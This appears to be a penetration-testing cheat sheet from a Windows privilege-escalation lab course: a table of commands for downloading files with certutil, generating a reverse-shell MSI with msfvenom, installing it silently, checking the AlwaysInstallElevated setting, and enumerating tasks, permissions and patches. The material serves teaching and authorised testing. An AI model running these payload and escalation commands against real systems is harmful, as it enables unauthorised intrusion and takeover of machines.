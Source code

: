 #### Other Commands

| **Command** | **Description** |
| --------------|-------------------|
| `certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat` | Transfer file with certutil |
| `certutil -encode file1 encodedfile` | Encode file with certutil |
| `certutil -decode encodedfile file2` | Decode file with certutil |
| `reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer` | Query for always install elevated registry key (1) |
| `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer` | Query for always install elevated registry key (2) |
| `msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi` | Generate a malicious MSI package |
| `msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart` | Executing an MSI package from command line |
| `schtasks /query /fo LIST /v` | Enumerate scheduled tasks |
| `Get-ScheduledTask \| select TaskName,State` | Enumerate scheduled tasks with PowerShell |
| `.\accesschk64.exe /accepteula -s -d C:\Scripts\` | Check permissions on a directory |
| `Get-LocalUser` | Check local user description field |
| `Get-WmiObject -Class Win32_OperatingSystem \| select Description` | Enumerate computer description field |
| `guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmd` |Mount VMDK on Linux|
| `guestmount --add WEBSRV10.vhdx  --ro /mnt/vhdx/ -m /dev/sda1` |Mount VHD/VHDX on Linux|
| `sudo python2.7 windows-exploit-suggester.py  --update` |Update Windows Exploit Suggester database|
| `python2.7 windows-exploit-suggester.py  --database 2021-05-13-mssb.xls --systeminfo win7lpe-systeminfo.txt` |Running Windows Exploit Suggester|
